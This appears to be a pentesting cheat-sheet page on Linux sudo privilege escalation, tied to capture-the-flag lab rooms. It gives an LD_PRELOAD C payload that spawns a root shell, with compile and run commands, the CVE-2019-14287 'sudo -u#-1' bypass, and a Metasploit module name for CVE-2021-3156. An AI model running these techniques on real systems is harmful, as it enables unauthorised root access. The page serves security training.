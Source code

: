 # sudo privilege escalation

*An excellent reference to exploit sudo: [SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER) (2.0k ⭐)*

[![linprivesc](../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![picklerick](../../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)
[![linprivesc](../../../_badges/thm-p/linprivesc.svg)](https://tryhackme.com/room/linprivesc#task-12)
[![wgelctf](../../../_badges/thm-p/wgelctf.svg)](https://tryhackme.com/room/wgelctf)
[![easyctf](../../../_badges/thm-p/easyctf.svg)](https://tryhackme.com/room/easyctf)
[![colddboxeasy](../../../_badges/thm-p/colddboxeasy.svg)](https://tryhackme.com/room/colddboxeasy)
[![allinonemj](../../../_badges/thm-p/allinonemj.svg)](https://tryhackme.com/room/allinonemj)
[![chillhack](../../../_badges/thm-p/chillhack.svg)](https://tryhackme.com/room/chillhack)
![nibbles](../../../_badges/htb-p/nibbles.svg)
![getsimplecms](../../../_badges/htb-p/getsimplecms.svg)
[![devvortex](../../../_badges/htb-p/devvortex.svg)](https://app.hackthebox.com/machines/Devvortex)
[![cozyhosting](../../../_badges/htb-p/cozyhosting.svg)](https://app.hackthebox.com/machines/CozyHosting)
[![knife](../../../_badges/htb-p/knife.svg)](https://app.hackthebox.com/machines/Knife)
[![broker](../../../_badges/htb-p/broker.svg)](https://app.hackthebox.com/machines/Broker)

<div class="row row-cols-lg-2"><div>

If you have [administrative privileges](/operating-systems/linux/_knowledge/index.md#sudo), you can list them with:

```ps
$ sudo -nl # without a password
$ sudo -l # with a password
```

The first section is about settings and environment variables that may be exploited such as [LD_PRELOAD](#ldpreload).

```text!
Matching Defaults entries for [...]:
    [...] # something here
```
</div><div>

The second section is about your [sudoers](/operating-systems/linux/env/files/index.md#etcsudoers) rights. Such commands may be exploited to get root, search the command on [GTOBins #sudo](tools/gtfobins.md).

```text!
User [...] may run the following commands on [...]:
    (root) /bin/tar
    (root) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /usr/bin/vim
    (xxx) NOPASSWD: /opt/script.sh
    (root) /usr/bin/ssh *
```

➡️ For instance, the user below can run `/bin/tar` as `root`. 

📚 Sometimes, instead of root, we may be able to run commands as another user, such as `/opt/script.sh` as user `xxx`. Use `sudo -u xxx`.
</div></div>

<hr class="sep-both">

## LD_PRELOAD

[![linprivesc](../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)

<div class="row row-cols-lg-2"><div>

If there is `env_keep += LD_PRELOAD` in the permissions displayed by `sudo -l`, then it means that the user can run some code before executing a command as administrator.

The code below replace the gid/uid of the user running the command with `0` <small>(root)</small>. Then, it pops a bash shell <small>(as root!)</small>.

```c
void _init() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
</div><div>

Compile it with

```
$ cd /tmp
$ gcc -shared -fPIC init.c -o init.so
```

Then, call the command that you could run as administrator <small>(`tar` here)</small>, while setting the variable path to your script:

```bash!
$ sudo LD_PRELOAD=/tmp/init.so tar
```

💎 Congratulations, you are `root` now!
</div></div>

<hr class="sep-both">

## Well-known Vulnerabilities

<div class="row row-cols-lg-2"><div>

#### sudo before 1.8.28 (CVE-2019-14287)

[![agentsudoctf](../../../_badges/thm-p/agentsudoctf.svg)](https://tryhackme.com/room/agentsudoctf)

If a user was allowed to run one specific command using sudo, such as `tar`, then it was possible for any other user to impersonate the authorized user, and run the command as root too.

```ps
$ sudo -u#-1 tar [...]
$ sudo -u#4294967295 tar [...]
```

💎 Congratulations, you are `root` now!
</div><div>

#### sudo before 1.9.5p2 (CVE-2021-3156)

[![metasploitframework](../../../_badges/htb/metasploitframework.svg)](https://academy.hackthebox.com/course/preview/using-the-metasploit-framework)

See metasploit module: `exploit/linux/local/sudo_baron_samedit`.
</div></div>